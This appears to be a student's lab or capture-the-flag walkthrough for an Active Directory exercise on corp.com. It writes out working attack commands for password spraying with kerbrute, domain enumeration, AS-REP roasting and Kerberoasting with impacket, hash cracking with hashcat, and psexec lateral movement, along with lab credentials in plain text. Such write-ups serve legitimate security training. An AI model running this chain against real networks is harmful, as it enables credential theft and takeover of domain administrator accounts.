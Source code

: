 - Starting credential pair is password `VimForPowerShell123!` with possible users being either `meg` or `backupuser`.
- Using `kerbrute passwordspray --dc 192.168.226.70 domainUsers.txt VimForPowerShell123\!` to spray the known password and find out `meg` to be the user of the password.![[Pasted image 20240209073601.png]]
- Again enumerate `smb` and `rdp` access of `meg` using `netexec`. In this case, it seems that `meg` is not a local administrator of any computer. ![[Pasted image 20240209074120.png]]
- Then, run `ldapdomaindump --no-json --no-grep ldap://192.168.224.70 -u "corp.com\meg" -p VimForPowerShell123\!` to gain more situational awareness within the domain environment. One can see that `backupuser` is one of the `Domain Admins`.![[Pasted image 20240209074618.png]]
- Let's continue by enumerate `AS-REP roastable` and `kerberoastable` accounts to find more potential footholds:
	1. `impacket-GetNPUsers -dc-ip 192.168.224.70 corp.com/meg:VimForPowerShell123\! -request -outputfile asreproast.hash`![[Pasted image 20240209074212.png]]
	2. `impacket-GetUserSPNs -dc-ip 192.168.224.70 corp.com/meg:VimForPowerShell123\! -request -outputfile kerberoast.hash`![[Pasted image 20240209074301.png]]
- Looks like `http/files04.corp.com` is registered under the account `backupuser` which allows use to perform `kerberoasting`. Run `hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt -r myrule --force` to identify the plaintext password of  `backupuser` as `DonovanJadeKnight1`.![[Pasted image 20240209075052.png]]
- Run `psexec` to get a C2 session and retrieve the flag.